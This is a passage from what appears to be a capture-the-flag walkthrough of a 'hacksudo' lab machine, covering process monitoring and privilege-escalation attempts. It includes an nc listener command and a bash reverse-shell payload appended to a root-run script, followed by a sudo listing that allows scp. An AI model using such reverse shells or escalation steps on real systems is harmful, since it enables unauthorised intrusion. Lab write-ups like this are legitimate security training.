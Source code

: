 ![evidence](./static/21-cyberchef-binary.png)

When I decompiled with `Ghidra`, then I can see the `main` function:

![evidence](./static/22-ghidra.png)

But it does not seem to be useful for privilege escalation, and I decided to check the process again with the `Pspy` tool:
```shell
...SNIPPED...
2023/02/02 14:36:01 UID=0 | /bin/sh -c hacksudo /home/hacksudo/./manage.sh
...SNIPPED...
```
And I identify that the `root` user runs a `hacksudo` command, and the command is weird, but I give it a try. When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1236
```
And I write a reverse shell payload on the `manage.sh` file:
```shell
$ echo "bash -c 'bash -i >& /dev/tcp/192.168.2.31/1236 0>&1'" >> manage.sh
```
Then nothing happens, it does not work. When I check the `sudo` privileges:
```shell
$ hacksudo@hacksudo:~$ sudo -l
...SNIPPED...
User hacksudo may run the following commands on hacksudo:
    (root) NOPASSWD: /usr/bin/scp
```